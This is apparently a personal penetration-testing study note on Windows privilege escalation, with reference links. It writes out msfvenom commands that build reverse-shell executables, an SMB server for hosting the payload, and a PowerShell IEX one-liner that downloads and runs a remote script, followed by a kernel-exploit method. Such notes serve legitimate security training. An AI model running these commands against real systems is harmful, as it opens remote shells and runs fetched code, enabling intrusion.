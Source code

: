 # Windows Escalation Paths
---------------------------

This document captures in my preparation journey various Escalation Paths in Windows to get to Authority \ System.  
A couple of golden resources that you need to be aware of and should be referenced frequently 
- [PayloadAllThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
- [Sushant's Blog](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html)


### Reverse Shell - General Method
--------------------------------------

1. Generate a reverse shell executable through any standard payload 

> **msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe**


As a next step, host this through a simple Python Server or through **SMB share**. You know Python server, here is the command for SMB share

> **sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .**

Note that the SMB server has to be set up in the same folder where the reverse.exe is (just like python server)

On the Target Windows machine you need to run the following command

> **copy \\\\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe**

Replace 10.10.10.10 with whatever IP the attach machine has.

And then run the reverse.exe file on the victim machine



2. Generating a Powershell session by invoking Nishang's Reverse Shell into the memory directly

In this scenario we create a reverse shell in 2 steps. The payload generated via MSFVENOM launches a CMD.EXE with a command to launch PowerShell that invokes IEX and connects to a hosting server (Python Server) the necessary Reverse Shell File. It invokes the Reverse Shell into memory and is thus executed directly and within script one can pass the reverse shell IP address & port and listen on it. 

Here is how we do it. 

> msfvenom -p windows/exec CMD="powershell \\"iex(New-Object Net.WebClient).downloadString('http://10.10.14.21/rev.ps1')\\"" -o reverse_pshell.exe


In here we are generating an EXE file which then needs to be run at the target box.






### Escalation Path 1 - Kernel Exploits
----------------------------------------

Kernel exploits present a very powerful way to escalate your privileges as it works directly with a kernel. Normally, you run a binary/executable and that should give you some kind of escalation of privileges on the box. 

**Resources**
-------------
https://github.com/SecWiki/windows-kernel-exploits

**Methodology**
---------------
1. Get some kind of a shell as part of initial foothold. This will depend on how you intend to escalate
	- Metasploit - For this you can use a payload of **windows/meterpreter/reverse_tcp** and run a handler to catch the shell
	- Manual - For this you can use a payload of **windows/shell_reverse_tcp** and run a NETCAT listener to catch the shell

2. Do local enumeration with the obtained shell 

3. Check on Exploit suggester to see if Kernel exploits are available. In case if they are go to the resource mentioned in the link.

4. See the methodology to get an escalated session and escalate privileges




### Escalation Path 2 - 